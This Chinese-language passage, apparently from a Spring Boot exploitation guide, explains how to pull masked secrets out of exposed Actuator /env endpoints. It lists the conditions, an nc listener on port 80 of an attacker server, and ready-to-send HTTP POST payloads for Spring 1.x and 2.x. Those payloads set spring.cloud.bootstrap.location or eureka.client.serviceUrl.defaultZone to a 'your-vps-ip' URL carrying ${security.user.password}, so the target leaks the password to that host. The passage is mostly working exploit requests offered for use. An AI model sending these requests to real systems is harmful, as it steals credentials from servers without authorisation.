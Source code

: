 #### 利用条件

- 通过 POST `/env` 设置属性触发目标对外网指定地址发起任意 http 请求
- 目标可以请求攻击者的服务器（请求可出外网）

#### 利用方法

> 参考 UUUUnotfound 提出的 [issue-1](https://github.com/LandGrey/SpringBootVulExploit/issues/1)，可以在目标发外部 http 请求的过程中，在 url path 中利用占位符带出数据

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

##### 步骤二： 使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：

```bash
nc -lvk 80
```

##### 步骤三： 触发对外 http 请求

- `spring.cloud.bootstrap.location` 方法（**同时适用于**明文数据中有特殊 url 字符的情况）

spring 1.x

```http
POST /env HTTP/1.1
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/?=${security.user.password}
```

spring 2.x

```http
POST /actuator/env HTTP/1.1
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/?=${security.user.password}"}
```

- `eureka.client.serviceUrl.defaultZone` 方法（**不适用于**明文数据中有特殊 url 字符的情况）

spring 1.x

```http
POST /env HTTP/1.1
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/${security.user.password}
```

spring 2.x

```http
POST /actuator/env HTTP/1.1
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/${security.user.password}"}
```
